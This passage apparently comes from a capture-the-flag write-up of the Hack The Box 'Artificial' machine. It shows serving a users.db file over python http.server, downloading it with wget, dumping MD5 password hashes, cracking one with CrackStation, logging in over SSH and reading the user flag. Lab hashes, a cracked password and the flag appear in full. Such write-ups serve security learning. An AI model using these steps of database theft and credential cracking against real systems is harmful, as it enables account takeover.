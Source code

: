 ```bash
$ cd instance
$ ls -la
total 32
drwxr-xr-x 2 app app  4096 Jun 23 15:46 .
drwxrwxr-x 7 app app  4096 Jun  9 13:56 ..
-rw-r--r-- 1 app app 24576 Jun 23 15:46 users.db
$ python3 -m http.server 8000
```

```bash
└─$ wget http://10.129.43.221:8000/users.db
```

Got our first, now gonna use `sqlite3` to check out the database.

```bash
└─$ sqlite3 users.db                     
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
model  user 
sqlite> select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|test123|test123@gmail.com|cc03e747a6afbbcbf8be7668acfebee5
```

We gonna grab the password hash of `gael` user because when you check the `/home` directory, we will see there is a `gael` directory. <br>
&rarr; We use this [CrackStation](https://crackstation.net/) to crack the password hash.

![CrackStation](/assets/img/artifical-htb-season8/artifical-htb-season8_crackstation.png)

Got the password: `mattp005numbertwo`. <br>
&rarr; Let's ssh to `gael` user.

```bash
└─$ ssh gael@10.129.43.221
gael@10.129.43.221's password: 
gael@artificial:~$ ls -la
total 32
drwxr-x--- 4 gael gael 4096 Jun  9 08:53 .
drwxr-xr-x 4 root root 4096 Jun 18 13:19 ..
lrwxrwxrwx 1 root root    9 Oct 19  2024 .bash_history -> /dev/null
-rw-r--r-- 1 gael gael  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 gael gael 3771 Feb 25  2020 .bashrc
drwx------ 2 gael gael 4096 Sep  7  2024 .cache
-rw-r--r-- 1 gael gael  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root    9 Oct 19  2024 .python_history -> /dev/null
lrwxrwxrwx 1 root root    9 Oct 19  2024 .sqlite_history -> /dev/null
drwx------ 2 gael gael 4096 Sep  7  2024 .ssh
-rw-r----- 1 root gael   33 Jun 23 04:31 user.txt
gael@artificial:~$ cat user.txt
e1a88abaaab58323180eb49d895a0dad
```
